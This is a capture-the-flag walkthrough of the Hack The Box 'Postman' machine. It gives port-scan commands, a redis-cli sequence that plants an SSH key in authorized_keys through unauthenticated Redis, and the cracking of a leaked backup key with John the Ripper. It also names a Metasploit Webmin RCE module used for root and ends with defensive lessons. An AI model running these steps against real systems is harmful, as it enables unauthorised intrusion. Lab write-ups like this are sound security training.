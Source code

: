 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png
coverY: 0
---
```


# 🧠 Real-World Security Lessons from HTB’s Postman: Misconfig to Root📮

<div data-full-width="true"><figure><img src="../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png" alt=""><figcaption></figcaption></figure></div>

### 💡 Summary

Postman (Linux, Easy) brings together two beautiful classics: an unauthenticated Redis server and a Webmin 1.910 instance vulnerable to command injection. Add a dash of SSH key juggling, and we’ve got a shell delivery system.

### 🔍 Enumeration

#### ⚙️ Full Port Scan

```
nmap -n -p- -vvv --reason -oN nmap/01-full-port-scan.txt -iL target.txt
```

**Open Ports**

* 22 – SSH
* 80 – Apache 2.4.29
  *

      <figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
* 6379 – Redis 4.0.9 (no auth)
* 10000 – MiniServ 1.910 (Webmin)



#### 🧠 Service Enumeration

```
nmap -sC -A -O -sV -oN nmap/03-detail-scan.txt -p22,80,6379,10000 -iL target.txt
```

Discovered:

* **Webmin** running on MiniServ 1.910
* **Redis** unauthenticated
* **SSH** banner suggests Ubuntu
* Apache server hosting a personal website

🔎 Googled the following:

* Redis 4.0.9 RCE possibilities&#x20;
  * [link](https://d4luc1.medium.com/unauthenticated-redis-server-leads-to-rce-6c175c75b293)
  * [<sub>https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419</sub>](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419)
* Webmin 1.910 exploit [Exploit-DB 46984](https://www.exploit-db.com/exploits/46984)



### 🛠️ Exploitation: Redis to Shell

**Generate SSH Key**

```
ssh-keygen -f postman
```

**Check for writable `.ssh` directory in Redis**

```
redis-cli -h 10.10.10.160
config set dir .ssh
config set dbfilename authorized_keys
```

**Inject Public Key**

```
(echo -e "\n\n"; cat postman.pub; echo -e "\n\n") > pub_key.txt
cat pub_key.txt | redis-cli -h 10.10.10.160 -x set exploit
save
```

**Login via SSH as redis**

```
ssh -i postman redis@10.10.10.160
```

### 🚪 Lateral Movement

Found `id_rsa.bak` in `/opt`:

```
scp redis@10.10.10.160:/opt/id_rsa.bak .
ssh2john id_rsa.bak > hash.john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.john
```

🎯 **Password Cracked:** `computer2008`

* i tried to ssh into the box but i was not able to as Matt
  * so changed user using the redis shell

```
su Matt
```

### 📈 Privilege Escalation – Webmin RCE

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* When i try to login into web admin panel with Matt Creds i can get in
* metasploit has a module for exploit webadmin

```
linux/http/webmin_packageup_rce
```

* webadmin is running as root and hence after exploiting it get a shell as root

### 🧠 Key Learnings from HTB Postman

1. **Default Redis Misconfiguration Can Lead to Shell Access**\
   Misconfigured Redis instances without authentication allow attackers to write files like `authorized_keys`, leading to direct system access.
2. **Exposed Private Keys Are a Critical Risk**\
   Backup or misplaced private keys (`.bak` files) can be cracked and reused for lateral movement. Regular key audits and encryption hygiene are essential.
3. **Outdated Web Interfaces Like Webmin Pose Privilege Escalation Risks**\
   Webmin v1.910 contains a known RCE vulnerability, allowing remote root access via command injection. Patch management is non-negotiable.
4. **Credential Reuse Enables Account Traversal**\
   Reusing passwords across services (e.g., Redis to Webmin) facilitated lateral movement and elevation of privileges.
5. **Misconfigurations Chain into Full Compromise**\
   No single point of failure — rather, a chain of small missteps (open Redis, leaked key, outdated Webmin) led to complete root compromise.



{% embed url="https://www.hackthebox.com/achievement/machine/409699/215" %}
